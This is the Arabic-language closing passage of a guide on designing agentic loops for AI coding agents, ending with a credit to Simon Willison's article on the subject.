مجال تصميم الحلقات الوكيلة لا يزال ناشئاً، وهناك فرصة هائلة لريادة أنماط وتقنيات جديدة. بإتقان هذه الأساسيات، ستكون في موضع جيد للاستفادة من القوة الكاملة لوكلاء الترميز بالذكاء الاصطناعي في سير عمل التطوير الخاص بك.

---

*يستند هذا الدليل إلى رؤى من مقال Simon Willison "[Designing agentic loops](https://simonwillison.net/2025/Sep/30/designing-agentic-loops/)" ويتم توسيعه بأمثلة التنفيذ العملية وأفضل الممارسات.*
